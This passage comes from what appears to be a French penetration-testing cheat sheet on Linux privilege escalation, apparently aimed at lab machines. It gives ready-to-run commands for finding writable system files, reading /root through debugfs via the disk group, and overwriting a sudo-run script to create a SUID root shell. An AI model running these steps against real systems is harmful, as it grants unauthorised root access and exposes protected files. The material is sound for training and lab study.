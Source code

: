     # Attendre qu'un script root exécute 'common_command'
    ```
*   **Scénario 13 (Modification de fichiers privilégiés) :** Si un fichier de configuration appartenant à `root` (ou à un autre utilisateur privilégié) est modifiable par l'utilisateur actuel, il peut être altéré pour obtenir une élévation de privilèges.
    *   Exemple : Modifier `/etc/passwd` (déjà couvert, mais attention, très risqué et souvent détecté).
    *   Exemple : Modifier des scripts de démarrage de services (ex: dans `/etc/init.d/` ou fichiers unit systemd si modifiables).
    *   Exemple : Modifier des fichiers de configuration d'applications qui sont lus par des processus privilégiés (ex: `sudoers` lui-même si mal configuré, fichiers de configuration de `cron`).
    ```bash
    find /etc -type f -writable 2>/dev/null
    find /usr/sbin -type f -writable 2>/dev/null
    find /opt -type f -writable 2>/dev/null
    ```

#### Exploitation des Droits de Groupe
> L'appartenance à certains groupes peut accorder des privilèges indirects.

Exemple (Extplorer - groupe `disk`):
> Le groupe `disk` permet un accès brut aux périphériques de stockage.
```bash
# Vérifier les groupes de l'utilisateur
id

# Si membre du groupe 'disk':
# Lister les périphériques de blocs
lsblk
# Utiliser debugfs pour lire le contenu du système de fichiers (ex: /dev/sda1, /dev/mapper/...)
sudo debugfs /dev/mapper/ubuntu--vg-ubuntu--lv # Remplacer par le bon périphérique
# Dans debugfs:
# ls /root
# cat /root/proof.txt
# quit
```
> Autres groupes d'intérêt : `adm` (accès aux logs), `sudo` (droits sudo), `docker` (contrôle de Docker), `lxd` (contrôle de LXD), `shadow` (lecture de `/etc/shadow`), `staff`, `admin`.

#### Fichiers de Configuration Modifiables par des Processus Privilégiés
> Si un service exécuté en tant que root lit un fichier de configuration sur lequel vous avez des droits d'écriture, vous pourriez être capable d'influencer son comportement.
> (Cette section peut être étendue avec des exemples spécifiques si disponibles dans la documentation originale)

#### Fichiers de Scripts Modifiables Exécutés avec Sudo
> Si un script (Python, Bash, etc.) est exécuté avec `sudo` et que vous avez les droits d'écriture sur ce script, vous pouvez le modifier pour exécuter du code arbitraire en tant que root.

Exemple (BitForge, RubyDome - adapté de `05-linux-internals...`):
```bash
# Scénario : sudo -l montre que l'utilisateur peut exécuter /opt/scripts/maintenance.py
# sudo /opt/scripts/maintenance.py
# Vérifier les permissions sur /opt/scripts/maintenance.py
ls -l /opt/scripts/maintenance.py
# Si modifiable par l'utilisateur courant :
echo 'import os; os.system("cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash")' > /opt/scripts/maintenance.py
# Exécuter le script via sudo :
sudo /opt/scripts/maintenance.py
# Ensuite, exécuter le shell SUID :
/tmp/rootbash -p
``` 